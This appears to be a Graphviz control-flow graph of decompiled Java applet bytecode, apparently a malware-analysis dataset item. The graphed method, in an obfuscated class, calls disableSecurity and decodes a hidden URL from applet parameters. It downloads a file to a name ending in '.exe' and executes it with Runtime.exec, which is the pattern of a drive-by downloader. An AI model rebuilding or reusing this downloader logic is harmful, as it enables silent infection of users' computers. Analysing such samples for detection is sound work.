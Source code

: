 digraph "" {
    "r0 := @this: bJsDUHzLhCMUWysyAHyM"
    "load.r r0"
    "r0 := @this: bJsDUHzLhCMUWysyAHyM"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"f\""
    "load.r r0"->"push \"f\"";
    "virtualinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String getParameter(java.lang.String)>"
    "push \"f\""->"virtualinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"a\""
    "load.r r0"->"push \"a\"";
    "push \"a\""->"virtualinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <bJsDUHzLhCMUWysyAHyM: void disableSecurity(java.lang.String,java.lang.String)>"
    "virtualinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <bJsDUHzLhCMUWysyAHyM: void disableSecurity(java.lang.String,java.lang.String)>";
    "new java.lang.StringBuffer"
    "virtualinvoke <bJsDUHzLhCMUWysyAHyM: void disableSecurity(java.lang.String,java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r4"
    "new java.lang.StringBuffer"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "load.r r4"->"load.r r0";
    "push \"OXsXpSUxUMXJ\""
    "load.r r0"->"push \"OXsXpSUxUMXJ\"";
    "push \"OXsXpSUxUMXJ\""->"virtualinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r6"
    "new java.lang.StringBuffer"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "load.r r6"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push 5"
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push 5";
    "store.i $r22"
    "push 5"->"store.i $r22";
    "store.i $r22"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "push 0"->"push 5";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"
    "push 5"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "store.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r0";
    "store.i r0"->"load.r r6";
    "new java.lang.Character"
    "load.r r6"->"new java.lang.Character";
    "dup1.r"
    "new java.lang.Character"->"dup1.r";
    "dup1.r"->"load.r r4";
    "load.i $r22"
    "load.r r4"->"load.i $r22";
    "load.i $r22"->"load.i $r22";
    "load.i $r22"->"push 5";
    "add.i"
    "push 5"->"add.i";
    "add.i"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "load.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"load.i r0";
    "div.i"
    "load.i r0"->"div.i";
    "i2c"
    "div.i"->"i2c";
    "specialinvoke <java.lang.Character: void <init>(char)>"
    "i2c"->"specialinvoke <java.lang.Character: void <init>(char)>";
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"
    "specialinvoke <java.lang.Character: void <init>(char)>"->"virtualinvoke <java.lang.Character: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"pop";
    "inc.i $r22 5"
    "pop"->"inc.i $r22 5";
    "inc.i $r22 5"->"load.i $r22";
    "load.i $r22"->"load.r r4";
    "virtualinvoke <java.lang.StringBuffer: int length()>"
    "load.r r4"->"virtualinvoke <java.lang.StringBuffer: int length()>";
    "ifcmplt.i load.r r6"
    "virtualinvoke <java.lang.StringBuffer: int length()>"->"ifcmplt.i load.r r6";
    "goto staticget <java.lang.System: java.io.PrintStream out>"
    "ifcmplt.i load.r r6"->"goto staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "goto staticget <java.lang.System: java.io.PrintStream out>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r6";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "new java.net.URL"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \".e\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \".e\"";
    "push \"xe\""
    "push \".e\""->"push \"xe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"xe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String sortBy(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String sortBy(java.lang.String)>";
    "store.r r0"
    "staticinvoke <bJsDUHzLhCMUWysyAHyM: java.lang.String sortBy(java.lang.String)>"->"store.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "store.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r4";
    "new java.io.FileOutputStream"
    "store.r r4"->"new java.io.FileOutputStream";
    "store.r $r22"
    "new java.io.FileOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"pop";
    "push 1024"
    "pop"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r4";
    "load.r r4"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"push 1024";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "push 1024"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i7"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i7";
    "load.i $i7"
    "store.i $i7"->"load.i $i7";
    "push -1"
    "load.i $i7"->"push -1";
    "ifcmpeq.i load.r $r22"
    "push -1"->"ifcmpeq.i load.r $r22";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i $i7";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i7"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r4"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r4";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "goto load.r r4"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"->"return";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
}
